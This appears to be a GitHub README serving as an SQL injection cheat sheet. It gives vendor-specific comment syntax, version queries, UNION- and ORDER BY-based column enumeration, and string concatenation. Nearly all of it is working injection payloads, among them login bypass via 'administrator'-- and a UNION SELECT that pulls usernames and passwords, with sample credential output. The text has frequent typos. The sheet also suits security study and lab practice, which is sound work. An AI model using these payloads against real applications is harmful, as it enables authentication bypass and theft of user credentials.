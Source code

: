 # SQL cheet sheat

This SQLi cheat sheet contains examples of useful syntax that you can use to perform a variety tasks that often arise when SQL injection attacks.

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input

"""SQL
**Oracle**: --comment

**Microsoft**: --comment
               /*comment*/

**PostgreSQL**: --comment
                /*comment*/

**MySQL**: #comment
           -- comment (note that the space needs to follow the double dash)
           /*comment*/
"""

***Example***:
"""SQL
	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
	SELECT * FROM products WHERE category = 'football' OR 1=1--' AND released = 1
	SELECT * FROM products WHERE category = 'football'--' AND released = 1
	UNION SELECT username, password FROM users-- 
"""

## Database version

"""SQL
**Oracle**: SELECT banner FROM v$version
            SELECT version FROM v$instance

**Microsoft**: SELECT @@version

**PostgreSQL**: SELECT version()

**MySQL**: SELECT @@version
"""

## Number of columns and type of each columns:

If the number of nulls does not match the number of columns, the databas return an error.
"""SQL
	UNION SELECT NULL-- (FROM DUAL-- should follow NULL for the injected queries on Oracle )
	UNION SELECT NULL,NULL--
	UNION SELECT NULL,NULL,NULL--
"""	

OR

This method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
"""SQL
	ORDER BY 1--
	ORDER BY 2--
	ORDER BY 3--
"""

After getting the number of comlumns. We can replace`NULL` by `string` or `int` value (i.e: 'abc', 123) to detect the type of data in each column:
"""SQL
	UNION SELECT 'abc',NULL,NULL,NULL--
	UNION SELECT NULL,'abc',NULL,NULL--
	UNION SELECT NULL,NULL,123,NULL-
"""

## String concatenation

"""
**Oracle**: 'foo'||'bar'

**Microsoft**: 'foo'+'bar'

**PostgreSQL**: 'foo'||'bar'

**MySQL**: 'foo' 'bar' (the space needs to between the two strings)
           CONCAT('foo','bar')
"""
For example:
"""SQL
UNION SELECT username || '~' || password FROM users--

==> results:

...
administrator~password1
user2~password2
user3~password3
...  
"""
